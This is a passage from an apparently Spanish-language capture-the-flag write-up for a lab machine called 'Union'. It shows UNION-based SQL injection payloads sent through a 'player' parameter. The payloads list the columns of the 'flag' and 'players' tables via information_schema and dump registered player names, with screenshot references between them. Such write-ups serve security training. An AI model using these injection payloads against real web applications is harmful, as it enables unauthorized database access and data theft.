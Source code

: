 ```
player=' union select group_concat(column_name) FROM information_schema.columns WHERE table_name='flag' AND table_schema='november'-- - 
```

Listamos `columnas` de la tabla `players`

![](/assets/img/Union/image_14.png)

```
player=' union select group_concat(column_name) FROM information_schema.columns WHERE table_name='players' AND table_schema='november'-- - 
```

`Listamos` todos los `players` registrados

![](/assets/img/Union/image_15.png)

```
player=' union select group_concat(player) from players-- - 
```

`Listamos` todas las `flags`

![](/assets/img/Union/image_16.png)
